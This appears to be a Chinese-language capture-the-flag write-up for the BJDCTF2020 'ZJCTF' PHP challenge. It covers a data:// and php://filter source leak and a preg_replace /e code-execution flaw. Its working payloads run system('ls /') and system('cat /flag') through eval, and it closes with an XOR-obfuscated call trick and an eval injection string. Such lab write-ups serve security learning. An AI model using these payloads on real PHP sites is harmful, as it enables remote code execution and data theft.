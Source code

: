 ## [BJDCTF2020]ZJCTF，不过如此

1.先看代码，提示了next.php，绕过题目的要求去回显next.php的base64加密内容

2.可以看到要求存在text内容而且text内容强等于后面的字符串，而且先通过这个if才能执行下面的file参数。

![](https://img2022.cnblogs.com/blog/2729166/202206/2729166-20220627125355970-702323601.png)

3.看到用的是file_get_contents()函数打开text。想到用data://协议

4.payload: ?text=data://text/plain,I have a dream&file=php://filter/convert.base64-encode/resource=next.php

5.得到next.php的内容

```
<?php  
$id = $_GET['id'];  
$_SESSION['id'] = $id;  
  
function complex($re, $str) {  
    return preg_replace(  
        '/(' . $re . ')/ei',  
        'strtolower("\\1")',  
        $str  
    );  
}  
  
  
foreach($_GET as $re => $str) {  
    echo complex($re, $str). "\n";  
}  
  
function getFlag(){  
    @eval($_GET['cmd']);  
}  

```
5.这里的漏洞出在**preg_replace** **/e** 模式下

e模式下的preg_replace可以让第二个参数'替换字符串'当作代码执行，但是这里第二个参数是不可变的，但因为有这种特殊的情况，正则表达式模式或部分模式两边添加圆括号会将相关匹配存储到一个临时缓存区，并且从1开始排序，而strtolower("\1")正好表达的就是匹配区的第一个（\\1=\1），从而我们如果匹配可以，则可以将函数实现。  
比如我们传入  ?.*=**{${phpinfo()}}**  

原句：preg_replace('/(' . $re . ')/ei','strtolower("\\1")',$str); 就变成preg_replace('/(' .* ')/ei','strtolower("\\1")',**{${phpinfo()}}**);

又因为$_GET传入首字母是非法字符时候会把   .（点号）改成下划线，因此得将\.*换成\s*

所有payload：?\S*=${getFlag()}&cmd=system('ls /'); 

![](https://img2022.cnblogs.com/blog/2729166/202206/2729166-20220627134114716-1034484069.png)

 终于看到了flag，然后将cmd里改成cat /flag即可

```
?\S*=${getFlag()}&cmd=system('cat /flag'); 
```

![](https://img2022.cnblogs.com/blog/2729166/202206/2729166-20220627134226627-1152733174.png)



```
$_="{{{{{{{"^"%1c%1e%0f%3d%17%1a%1c";$_();
```

```
[php]${eval($_GET[_])}[php]&_=phpinfo();
```
